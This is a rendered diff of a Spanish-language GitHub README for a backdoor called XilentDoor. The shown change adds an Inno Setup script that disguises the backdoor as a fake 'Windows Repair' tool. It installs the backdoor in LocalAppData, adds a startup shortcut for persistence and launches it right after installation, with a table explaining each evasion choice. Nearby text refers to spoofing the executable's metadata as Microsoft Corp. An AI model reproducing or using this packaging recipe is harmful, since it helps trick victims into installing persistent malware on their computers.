

Before and after one commit to R3LI4NT/XilentDoor, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -94,4 +94,34 @@ rcedit-x64.exe XilentDoor.exe --set-version-string "CompanyName" "Microsoft Corp
 
 <img width="1362" height="562" alt="evasion-metada" src="https://github.com/user-attachments/assets/c7a9ad56-1281-48d0-abf2-56d03128851a" />
 
-Luego empaquetaremos el .EXE/.MSI en un installer utilizando herramientas como <a href="https://jrsoftware.org/isdl.php">Inno SetUp</a> o <a href="https://nsis.sourceforge.io/Main_Page">NSIS</a>. En mi caso utilizaré Inno,
+Luego empaquetaremos el .EXE/.MSI en un installer utilizando herramientas como <a href="https://jrsoftware.org/isdl.php">Inno SetUp</a> o <a href="https://nsis.sourceforge.io/Main_Page">NSIS</a>. En mi caso utilizaré Inno, luego de escribir los metadatos del .EXE debemos de crear un script con el nombre `instalador.iss` con el siguiente contenido:
+```python
+[Setup]
+AppName=Windows Tool
+AppVersion=1.3.5.0
+DefaultDirName={localappdata}\WindowsRepair
+DisableProgramGroupPage=yes
+OutputDir=.
+OutputBaseFilename=installer_windows_tool
+Compression=lzma
+SolidCompression=yes
+
+[Files]
+Source: "C:\Users\Usuario\Desktop\MALWARE\Evasion\XilentDoor.exe"; DestDir: "{app}"; Flags: ignoreversion
+
+[Icons]
+Name: "{userstartup}\Windows Repair"; Filename: "{app}\XilentDoor.exe"; IconFilename: "{app}\XilentDoor.exe"
+
+[Run]
+Filename: "{app}\XilentDoor.exe"; Description: "Ejecutando Windows Repair..."; Flags: nowait postinstall skipifsilent
+```
+
+| PARÁMETRO | DESCRIPCIÓN |
+| ------------- | ------------- |
+| AppName y AppVersion | Nombre visible del programa falso. |
+| DefaultDirName | Instala en AppData\WindowsAudio (poco sospechoso). |
+| OutputDir | El .exe del instalador se guardará en el mismo directorio. |
+| Files | Copia XilentDoor.exe a la carpeta destino. |
+| Icons | Crea una entrada en Inicio → Ejecutar al iniciar sesión. |
+| Run | Ejecuta el backdoor automáticamente tras la instalación. |
+
````
Also changed, not shown: other parts of README.md (+4 -0 lines).
